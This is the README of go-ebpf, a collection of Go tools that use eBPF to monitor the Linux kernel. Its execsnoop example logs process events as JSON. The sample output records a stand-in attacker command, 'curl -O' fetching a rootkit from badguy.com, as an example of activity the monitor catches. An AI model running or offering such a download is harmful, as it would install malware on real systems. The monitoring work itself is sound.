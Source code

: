 # go-ebpf

[![Build Status](http://img.shields.io/travis/andrewkroh/go-ebpf.svg?style=flat-square)][travis]
[![Go Documentation](http://img.shields.io/badge/go-documentation-blue.svg?style=flat-square)][godocs]

[travis]: http://travis-ci.org/andrewkroh/go-ebpf
[godocs]: http://godoc.org/github.com/andrewkroh/go-ebpf

go-ebpf is a collection of example tools that use [eBPF][ebpf] to collect
metrics and data from the Linux kernel _without using [bcc][bcc]_. The eBPF
programs are written in restricted C and then compiled into eBPF bytecode
using `clang` and LLVM (`llc`). The bytecode is shipped with the Go program
to avoid having a runtime dependency on `clang` and `llc` (normally you don't
want to have compilers on your production systems).

If the kernel's JIT compiler is enabled the eBPF bytecode will be translated
into native machine code for better performance. The JIT compiler is currently
available for the x86-64, arm64, and s390 architectures. It can be enabled by

`echo 1 > /proc/sys/net/core/bpf_jit_enable`

[ebpf]: https://en.wikipedia.org/wiki/Berkeley_Packet_Filter
[bcc]:  https://github.com/iovisor/bcc

## Installation and Usage

Package documentation can be found on [GoDoc][godocs].

Installation can be done with a normal `go get` or you can download a binary
from the [releases][releases] page. There's also a [Docker image][docker].

[releases]: https://github.com/andrewkroh/go-ebpf/releases
[docker]:   https://hub.docker.com/r/akroh/go-ebpf/tags/

Docker:
```
docker run -it --rm --cap-add=SYS_ADMIN -v /sys/kernel/debug:/sys/kernel/debug akroh/go-ebpf:execsnoop
```

Go:
```
$ go install github.com/andrewkroh/go-ebpf/cmd/execsnoop
```

In order to run the `execsnoop` example the `CAP_SYS_ADMIN` capability is
required. Therefore the program should be run as root.

```
sudo $GOPATH/bin/execsnoop
```

Then in a second terminal if you run a program you will see info about all
the processes. The program outputs JSON events. There are three
different event types -- `started`, `exited`, and `error`.

- `started` - This event is generated at startup for all existing processes by
reading from `/proc` and it is generated anytime there is a successful `execve`
syscall.
- `exited` - This event is generated when a program exits. It contains the same
data as the `started` event along with the end time and elapsed running time.
- `error` - This event is generated when an `execve` syscall results in an
error. For example if `execve` fails because the user does not have permissions
to execute the binary then an error event will be generated with the
`error_code` value.

```json
$ sudo $GOPATH/bin/execsnoop | jq .
{
  "type": "started",
  "start_time": "2017-11-03T15:16:56.890551865Z",
  "ppid": 15785,
  "parent_comm": "bash",
  "pid": 22022,
  "uid": 1000,
  "gid": 1000,
  "exe": "/usr/bin/curl",
  "args": [
    "curl",
    "-O",
    "https://badguy.com/rootkit.tar.gz"
  ]
}
{
  "type": "exited",
  "start_time": "2017-11-03T15:16:56.890551865Z",
  "ppid": 15785,
  "parent_comm": "bash",
  "pid": 22022,
  "uid": 1000,
  "gid": 1000,
  "exe": "/usr/bin/curl",
  "args": [
    "curl",
    "-O",
    "https://badguy.com/rootkit.tar.gz"
  ],
  "end_time": "2017-11-03T15:16:56.908970285Z",
  "running_time_ns": 18418420
}
{
  "type": "error",
  "start_time": "2017-11-03T15:17:18.103922381Z",
  "ppid": 15785,
  "parent_comm": "bash",
  "pid": 22024,
  "uid": 1000,
  "gid": 1000,
  "exe": "/sbin/unix_update",
  "args": [
    "/sbin/unix_update"
  ],
  "error_code": -13
}
```
